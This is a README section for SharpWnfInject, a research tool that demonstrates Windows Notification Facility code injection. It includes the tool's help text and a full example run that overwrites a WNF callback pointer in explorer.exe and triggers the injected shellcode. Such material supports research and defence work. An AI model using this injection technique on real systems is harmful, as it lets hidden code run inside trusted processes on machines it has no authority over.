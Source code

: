 [Back to Top](#sharpwnfsuite)

[Project](./SharpWnfSuite/SharpWnfInject)

This tool is to investigate how attackers can abuse WNF for code injection technique:

```
PS C:\Dev> .\SharpWnfInject.exe -h

SharpWnfInject - Tool to investigate WNF code injection technique.

Usage: SharpWnfInject.exe [Options]

        -h, --help  : Displays this help message.
        -n, --name  : Specifies WNF State Name to inject. Hex format or Well-known name format is accepted.
        -p, --pid   : Specifies PID to inject.
        -i, --input : Specifies the file path to shellcode.
        -d, --debug : Flag to enable SeDebugPrivilege. Requires administrative privilege.

[!] -n option is required.
```

This tool overwrite callback function pointer in `WNF_USER_SUBSCRIPTION` for a specific WNF State Name.
The code injection technique does not work for all WNF State Name.
For example, this technique is known to be available for `WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED` used by `explorer.exe` in Windows 11 23H2.
To test this technique, execute this tool as follows:

```
PS C:\Dev> .\SharpWnfInject.exe -p 5800 -n WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED -i .\notepad_arm64.bin

[*] Target WNF State Name is 0x0D83063EA3BE10F5 (WNF_SHEL_WINDOWSTIP_CONTENT_PUBLISHED).
[+] Got a handle from the target Process
    [*] Process Name    : explorer.exe
    [*] Process ID      : 5800
    [*] Image File Name : C:\Windows\explorer.exe
    [*] Architecture    : ARM64
[+] Pointer for WNF_SUBSCRIPTION_TABLE is at 0x00007FFE886F4E20.
[+] WNF_SUBSCRIPTION_TABLE is at 0x0000000001206660.
[*] WNF_NAME_SUBSCRIPTION is at 0x0000000001273540.
[+] Got 1 WNF_USER_SUBSCRIPTION.
[*] Target callback pointer is at 0x00000000051C2250.
[*] Callback function is at 0x00007FFE54FD4D20 (twinui!DllGetClassObject+0x11AFF0).
[+] Shellcode buffer is at 0x0000000003270000.
[+] 344 bytes shellcode is written successfully.
[+] Callback pointer is overwritten successfully.
[>] Triggering shellcode.
[+] WNF State Data is updated successfully. Shellcode might be executed.
[+] Callback pointer is reverted successfully.
[*] Done.
```
